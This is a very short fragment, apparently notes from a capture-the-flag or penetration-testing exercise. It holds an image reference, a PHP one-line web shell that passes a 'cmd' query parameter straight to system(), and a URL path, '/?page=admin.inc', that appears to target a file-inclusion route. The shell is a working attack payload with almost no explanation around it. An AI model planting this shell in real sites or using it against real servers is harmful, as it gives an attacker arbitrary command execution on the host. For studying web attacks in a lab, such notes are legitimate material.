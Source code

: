 ____

![[Pasted image 20241117165345.png]]
```php
<?php
    system($_GET['cmd']);
?>
```


```bash
/?page=admin.inc
```


